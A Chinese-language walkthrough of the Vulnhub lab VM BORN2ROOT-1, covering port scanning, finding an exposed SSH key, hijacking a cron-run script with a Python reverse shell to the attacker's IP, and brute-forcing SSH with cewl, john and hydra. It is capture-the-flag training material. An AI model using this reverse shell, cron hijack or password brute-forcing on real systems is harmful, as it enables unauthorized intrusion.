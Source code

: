```yaml
---
title: Vulnhub 197 BORN2ROOT-1
date: 2017-06-10
---
```


考点：id_rsa,hydra

靶机链接：<https://www.vulnhub.com/entry/born2root-1,197/>
<!--more-->
## 环境配置

| 名称        | IP        |
| ----------- | --------- |
| Kali Linux  | 10.0.2.24 |
| BORN2ROOT-1 | 10.0.2.40 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.40
$ sudo nmap -v -A -p- $rip
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 3d:6f:40:88:76:6a:1d:a1:fd:91:0f:dc:86:b7:81:13 (DSA)
|   2048 eb:29:c0:cb:eb:9a:0b:52:e7:9c:c4:a6:67:dc:33:e1 (RSA)
|   256 d4:02:99:b0:e7:7d:40:18:64:df:3b:28:5b:9e:f9:07 (ECDSA)
|_  256 e9:c4:0c:6d:4b:15:4a:58:4f:69:cd:df:13:76:32:4e (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 2 disallowed entries 
|_/wordpress-blog /files
|_http-title:  Secretsec Company 
|_http-server-header: Apache/2.4.10 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42589/udp   status
|   100024  1          44269/udp6  status
|   100024  1          59185/tcp6  status
|_  100024  1          60456/tcp   status
60456/tcp open  status  1 (RPC #100024)

```

### WEB测试

#### 端口80

![1](https://www.vulnhub.cn/walkthrough/197/1.webp)

获得用户名三个 `martin hadi jimmy`

访问robots.txt获得两个目录

![2](https://www.vulnhub.cn/walkthrough/197/2.webp)

两个目录都无有用信息

```bash
$ gobuster dir --url http://10.0.2.40 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x .php 
```

![3](https://www.vulnhub.cn/walkthrough/197/3.webp)

访问`icons`目录发现目录可访问

![4](https://www.vulnhub.cn/walkthrough/197/4.webp)

发现ssh登录认证密钥

![5](https://www.vulnhub.cn/walkthrough/197/5.webp)

## 获得权限

### martin

![6](https://www.vulnhub.cn/walkthrough/197/6.webp)

这就尴尬了，查一下这个异常报错是因为DSA密钥的问题，可以[修改配置文件](https://www.cnblogs.com/fly2wind/p/15640719.html) 或者ssh登录时加参数 `-o PubkeyAcceptedKeyTypes=+ssh-rsa`

![7](https://www.vulnhub.cn/walkthrough/197/7.webp)

咋的，还得输入密码，目测是`.bashrc` 加了登录启动脚本，回车一下绕过了，还是看看这个脚本

![8](https://www.vulnhub.cn/walkthrough/197/8.webp)

下载文件发现`wget`和`curl`都不能用

还是修改`.ssh/config`添加`PubkeyAcceptedKeyTypes +ssh-rsa`

![9](https://www.vulnhub.cn/walkthrough/197/9.webp)

通过sftp上传`linpeas.sh`和`pspy`

### jinmy

通过`linpeas.sh`发现

![10](https://www.vulnhub.cn/walkthrough/197/10.webp)

`jimmy`权限每隔五分钟运行`/tmp/sekurity.py`去/tmp目录发现文件不存在，那就新建文件反弹shell了

新建文件`/tmp/sekurity.py` 内容为

```python
import sys, socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.0.2.24', 444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/sh", "-i"])
```

过了几分钟收到反弹shell

![11](https://www.vulnhub.cn/walkthrough/197/11.webp)

### hadi

```
$ cewl -w pass http://10.0.2.40/

```

看了看，把`martin hadi jimmy`也加到pass里

使用john生成增强字典

```
$ john --wordlist=pass --rules=best64 --stdout >pass2
```

使用hydra爆破用户`hadi`的密码

```
$ hydra -l hadi   -P pass2  -f 10.0.2.40 ssh
```

![12](https://www.vulnhub.cn/walkthrough/197/12.webp)

## 提权

登录上去发现文件`.gdb_history`应该是直接可以获得root权限

![13](https://www.vulnhub.cn/walkthrough/197/13.webp)